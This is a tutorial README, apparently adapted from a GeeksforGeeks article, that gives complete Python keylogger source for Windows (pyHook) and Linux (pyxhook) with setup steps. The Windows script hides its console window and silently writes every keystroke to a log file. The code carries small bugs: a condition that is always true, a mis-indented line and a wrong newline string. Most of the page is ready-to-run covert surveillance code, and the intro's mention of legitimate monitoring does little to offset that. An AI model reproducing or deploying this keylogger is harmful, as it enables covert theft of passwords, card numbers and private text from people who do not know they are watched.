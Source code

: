 # Design a KeyLogger using Python


Keystroke logging, often referred to as keylogging or keyboard capturing, is the action of recording (logging) the keys struck on a keyboard, typically covertly, so that the person using the keyboard is unaware that their actions are being monitored.<br>

These are computer programs designed to work on the target computer’s software. Keyloggers are used in IT organizations to troubleshoot technical problems with computers and business networks. Families and business people use keyloggers legally to monitor network usage without their users’ direct knowledge. However, malicious individuals can use keyloggers on public computers to steal passwords or credit card information.<br>




## Keylogger for Windows

> Download some python libraries <br>
1. [pywin32](http://www.lfd.uci.edu/~gohlke/pythonlibs/#pywin32)
2. [pyhook](http://www.lfd.uci.edu/~gohlke/pythonlibs/#pyhook)

Following is the code to create keylogger in python <br>

```py
import win32api 
import win32console 
import win32gui 
import pythoncom, pyHook 
  
win = win32console.GetConsoleWindow() 
win32gui.ShowWindow(win, 0) 
  
def OnKeyboardEvent(event): 
    if event.Ascii==5: 
        _exit(1) 
    if event.Ascii !=0 or 8: 
    #open output.txt to read current keystrokes 
        f = open('c:\output.txt', 'r+') 
        buffer = f.read() 
        f.close() 
    # open output.txt to write current + new keystrokes 
        f = open('c:\output.txt', 'w') 
        keylogs = chr(event.Ascii) 
        if event.Ascii == 13: 
        keylogs = '/n'
        buffer += keylogs 
        f.write(buffer) 
        f.close() 
# create a hook manager object 
hm = pyHook.HookManager() 
hm.KeyDown = OnKeyboardEvent 
# set the hook 
hm.HookKeyboard() 
# wait forever 
pythoncom.PumpMessages() 
```
<br>

> Save the file in C:\ as Keylogger.py and run the python script <br>


**Output:**<br>
> The keylogger will be started in the background and save all the data on the log file “c:\output.txt”. <br>





## Keylogger in Linux

**pyxhook** requires **python-xlib**. Install it if you don’t have it already.<br>

> sudo apt-get install python-xlib <br>

Download [pyxhook](https://github.com/JeffHoogland/pyxhook/blob/master/pyxhook.py) library <br>

```py
import os 
import pyxhook 
  
# This tells the keylogger where the log file will go. 
# You can set the file path as an environment variable ('pylogger_file'), or use the default ~/Desktop/file.log 
log_file = os.environ.get( 
    'pylogger_file', 
    os.path.expanduser('~/Desktop/file.log') 
) 
# Allow setting the cancel key from environment args, Default: ` 
cancel_key = ord( 
    os.environ.get( 
        'pylogger_cancel', 
        '`'
    )[0] 
) 
  
# Allow clearing the log file on start, if pylogger_clean is defined. 
if os.environ.get('pylogger_clean', None) is not None: 
    try: 
        os.remove(log_file) 
    except EnvironmentError: 
       # File does not exist, or no permissions. 
        pass
  
#creating key pressing event and saving it into log file 
def OnKeyPress(event): 
    with open(log_file, 'a') as f: 
        f.write('{}\n'.format(event.Key)) 
  
# create a hook manager object 
new_hook = pyxhook.HookManager() 
new_hook.KeyDown = OnKeyPress 
# set the hook 
new_hook.HookKeyboard() 
try: 
    new_hook.start()         # start the hook 
except KeyboardInterrupt: 
    # User cancelled from command line. 
    pass
except Exception as ex: 
    # Write exceptions to the log file, for analysis later. 
    msg = 'Error while catching events:\n  {}'.format(ex) 
    pyxhook.print_err(msg) 
    with open(log_file, 'a') as f: 
        f.write('\n{}'.format(msg)) 
```
<br>
Output: <br>

> The keylogger will be started in the background and save all the data on the file.log file “/home/username/Desktop”.<br>


Credit : Akash Sharan <br>

References :
* https://en.wikipedia.org/wiki/Keystroke_logging
* https://www.geeksforgeeks.org/design-a-keylogger-in-python/?ref=lbp

